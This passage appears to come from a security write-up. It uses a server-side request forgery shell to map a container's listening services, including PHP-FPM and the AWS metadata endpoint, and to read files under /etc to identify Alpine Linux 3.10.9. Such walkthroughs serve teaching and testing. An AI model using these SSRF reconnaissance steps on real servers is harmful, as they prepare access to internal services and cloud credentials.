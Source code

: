 Running this confirms what we guessed from the process list: `nginx` is listening
on port `80`, something is listening on port `9000` (most likely PHP-FPM), and
a final process is listening on the AWS metadata IP address `169.254.169.254`, 
undoubtedly the `ec2-metadata` process.

``` shell-session
ssrf> netstat
Local Address           Remote Address          State
127.0.0.1:9000          0.0.0.0:0               TCP_LISTEN
169.254.169.254:80      0.0.0.0:0               TCP_LISTEN
172.17.0.2:80           0.0.0.0:0               TCP_LISTEN
172.17.0.2:80           130.211.0.94:62065      TCP_TIME_WAIT
172.17.0.2:80           130.211.1.78:55574      TCP_TIME_WAIT
172.17.0.2:80           35.191.15.167:64577     TCP_TIME_WAIT
172.17.0.2:80           35.191.8.30:59921       TCP_TIME_WAIT
127.0.0.1:9000          127.0.0.1:46666         TCP_TIME_WAIT
172.17.0.2:80           130.211.1.86:61100      TCP_TIME_WAIT
172.17.0.2:80           35.191.12.197:59722     TCP_TIME_WAIT
172.17.0.2:80           35.191.19.122:50468     TCP_TIME_WAIT
172.17.0.2:80           35.191.15.218:59766     TCP_TIME_WAIT
172.17.0.2:80           35.191.3.69:53260       TCP_TIME_WAIT
172.17.0.2:80           35.191.9.214:50848      TCP_TIME_WAIT
172.17.0.2:80           130.211.1.89:57593      TCP_TIME_WAIT
...
```

## Identifying the Container Distribution

The next piece of the puzzle we need to decipher is what Linux distribution
is the container built on. Identifying this is critical to re-creating the environment
on our local system. By requesting a number of different files inder `/etc`, we
can determine the distribtion version used:

- `/etc/issue`: may contain information used as banners on virtual terminals
- `/etc/debian_version`: used on Debian-based distributions such as Ubuntu
- `/etc/redhat-release`: used on RedHat derivative distributions
- `/etc/alpine-release`: used on Alpine Linux, a lightweight Linux distribution
designed for low overhead environments such as containers

Other distributions such as Arch or Gentoo will have files used that can
be used to identify them, discovering those is an exercise for the reader

Fetching `/etc/issue` shows that the container is running [Alpine Linux](https://www.alpinelinux.org/), and `/etc/alpine-release` shows it's specific version is `3.10.9`.

``` shell-session
ssrf> /etc/issue
Welcome to Alpine Linux 3.10
Kernel \r on an \m (\l)


ssrf> /etc/alpine-release
3.10.9

ssrf>
```
